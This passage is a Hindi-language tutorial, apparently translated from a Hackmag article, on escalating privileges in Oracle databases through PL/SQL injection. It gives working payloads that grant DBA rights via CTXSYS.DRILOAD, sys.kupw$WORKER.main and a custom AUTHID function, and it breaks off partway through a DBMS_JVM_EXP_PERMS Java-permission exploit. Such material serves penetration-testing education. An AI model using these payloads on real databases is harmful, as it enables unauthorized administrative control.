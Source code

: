 आप विभिन्न तरीकों का उपयोग करके उच्चाधिकार बढ़ा सकते हैं, जो क्लासिक बफर ओवरफ्लो और DLL पैचिंग से लेकर डेटाबेस के खिलाफ विशेष हमलों जैसे PL/SQL इंजेक्शन तक हो सकते हैं। यह विषय बहुत व्यापक है और इस लेख में, मैं इस पर विचार नहीं करूंगा, क्योंकि इसकी चर्चा विशाल शोध पत्रों में की जाती है, जैसे कि \[Lichfield\] \(goo.gl/IebQN4\) और \[Finnigan\] \(goo.gl/vXhttf\) के ब्लॉगों में मिलते हैं। मैं केवल कुछ उदाहरण दिखाऊंगा, ताकि आपको एक सामान्य विचार हो सके। परीक्षण के दौरान, मैं सिर्फ वर्तमान उच्चाधिकारों पर ध्यान देने की सलाह देता हूं और इसके आधार पर इंटरनेट में चाहिए गए खोलों की खोज करें।

MS SQL के विपरीत, जहां एक हमलावर 'SELECT' के बाद आसानी से 'xp\_cmdshell' इंजेक्शन कर सकता है, बस उसे एक उद्धरण चिह्न के साथ बंद करके, Oracle DB ऐसे चालाकियों को स्वीकार नहीं करता है। इस कारण से, हम हर बार क्लासिक SQL इंजेक्शन का सहारा नहीं ले सकते हैं, हालांकि, इस मामले में भी एक रास्ता निकालना संभव है। हम PL/SQL इंजेक्शन को विचार करेंगे, जो उपलब्ध इनपुट पैरामीटर में यादृच्छिक आदेशों को सम्मिलित करके प्रक्रिया \(कार्य, ट्रिगर और अन्य ऑब्जेक्ट्स\) के निष्पादन की प्रक्रिया को संशोधित करते हैं। \(सी\) Sh2kerr

पेलोड सम्मिलित करने के लिए, एक ऐसा फंक्शन ढूंढें जहां इनपुट पैरामीटरों को फ़िल्टर नहीं किया जाता है। ध्यान दें कि Oracle SQL अनुमति नहीं देता है कि एकाधिक \(एकाधिक\) क्वेरी को निष्पादित किया जाए, इसलिए, आपको संभवतः कुछ "विशेष" प्रक्रियाओं का उपयोग करना होगा जिनमें यह सुविधा होती है। हमले के पीछे की मुख्य विचार इस प्रकार है: डिफ़ॉल्ट रूप से, यदि अन्यथा निर्दिष्ट नहीं किया गया हो, प्रक्रिया मालिक के नाम पर नहीं, बल्कि उस उपयोगकर्ता के नाम पर निष्पादित की जाती है जिसने इसे शुरू किया है। अन्य शब्दों में, यदि 'SYS' खाते के द्वारा स्वामित्व में होने वाली प्रक्रिया निष्पादित करने के लिए उपलब्ध है और आप इसमें अपना कोड सम्मिलित कर सकते हैं, तो आपका पेलोड भी 'SYS' खाते के संदर्भ में निष्पादित होगा। जैसा कि मैं पहले ही कह चुका हूं, यह हमेशा नहीं होता है, क्योंकि 'authid current\_user' पैरामीटर वाली प्रक्रियाएं होती हैं, जिसका अर्थ है कि इस प्रक्रिया को वर्तमान उपयोगकर्ता की विशेषाधिकारों के साथ निष्पादित किया जाएगा। हालांकि, आमतौर पर हर संस्करण में, आप PL/SQL इंजेक्शन के प्रति संवेदनशील होने वाले कुछ फंक्शन ढूंढ सकते हैं। इस प्रक्रिया का सामान्य दृश्य चित्र 2 में दिखाया गया है।

[![inject](https://hackmag.com/wp-content/uploads/2015/04/inject.png)](https://hackmag.com/wp-content/uploads/2015/04/inject.png)

संक्षेप में, उम्मीद की जाने वाली वैध तर्क की बजाय, हम कुछ दुष्ट कोड पास करते हैं जो प्रक्रिया का एक हिस्सा बन जाता है। 'CTXSYS.DRILOAD' फंक्शन द्वारा एक अच्छा उदाहरण प्रदान किया जाता है। यह 'CTXSYS' के नाम पर निष्पादित होता है और इनपुट पैरामीटर को फ़िल्टर नहीं करता है, जिससे आप आसानी से DBA तक पहुंच सकते हैं:
```text
exec ctxsys.driload.validate_stmt('grant dba to scott');
```
फिर भी, अब यह शायद इतिहास हो चुका होगा, क्योंकि यह सुरक्षा दुर्बलता 2004 में पाई गई थी और यह केवल पुराने संस्करण 8-9 पर प्रभावित करती है। आमतौर पर, विशेषाधिकारों को बढ़ाने की प्रक्रिया को दो भागों में विभाजित किया जाता है: उच्चाधिकार बढ़ाने वाली प्रक्रिया लिखना और संक्रमण स्वयं को करना। एक सामान्य प्रक्रिया निम्नलिखित होती है:
```text
CREATE OR REPLACE FUNCTION F1
RETURN NUMBER AUTHID CURRENT_USER
IS
PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
EXECUTE IMMEDIATE 'GRANT DBA TO TEST';
COMMIT;RETURN(1);END;
/
```
अब हम एक प्रक्रिया को संकटपूर्ण फ़ंक्शन के तर्क के रूप में संक्रमित कर सकते हैं (10x संस्करणों के लिए उदाहरण):
```text
exec sys.kupw$WORKER.main('x','YY'' and 1=test1.f1 –-');
```
नए संस्करण 10 और 11 में, एक "अच्छी" अपवाद, या बदलते हुए सुरक्षा की कमी, है जो आपको सर्वर पर कमांड निष्पादित करने की अनुमति देती है बिना DBA अधिकारों के: 'DBMS_JVM_EXP_PERMS' प्रक्रिया एक उपयोगकर्ता को 'CREATE SESSION' अधिकार के साथ 'JAVA IO' अधिकार प्राप्त करने की अनुमति देती है। हमला निम्नलिखित तरीके से लगाया जा सकता है:
```text
SQL&gt; DECLARE
POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;
CURSOR C1 IS SELECT
'GRANT','GREMLIN','SYS','java.io.FilePermission','&lt;FILES&gt;&gt;','execute','ENABLED' FROM DUAL;
BEGIN
OPEN C1;
FETCH C1 BULK COLLECT INTO POL;
```